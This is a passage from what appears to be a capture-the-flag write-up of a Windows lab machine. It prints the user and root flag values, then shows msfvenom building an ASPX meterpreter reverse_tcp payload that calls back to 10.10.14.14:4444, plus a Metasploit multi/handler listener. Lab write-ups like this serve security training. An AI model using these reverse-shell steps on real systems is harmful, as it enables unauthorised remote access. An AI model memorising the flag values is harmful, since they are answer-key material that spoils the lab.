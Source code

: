 ### Flags

{% highlight bash %}
c:\Users>dir /b/s *.txt
    ...
    c:\Users\Administrator\Desktop\root.txt.txt
    ...
    c:\Users\babis\Desktop\user.txt.txt
    ...
c:\Users>type c:\Users\babis\Desktop\user.txt.txt
9ecdd6a3aedf24b41562fea70f4cb3e8
c:\Users>type c:\Users\Administrator\Desktop\root.txt.txt
e621a0b5041708797c4fc4728bc72b4b
{% endhighlight %}

## Method #2: using Metasploit (meterpreter)

### 1. `msfvenom`

Preparing our malicious file which1 will give us a **meterpreter**: 

{% highlight bash %}
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f aspx > meterpreter.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2883 bytes
{% endhighlight %}

### 2. Metasploit multi/handler

We set a listener that can handle a **meterpreter** session:

{% highlight bash %}
$ msfconsole
msf6 > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 > use exploit/multi/handler 
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.14
msf6 exploit(multi/handler) > run
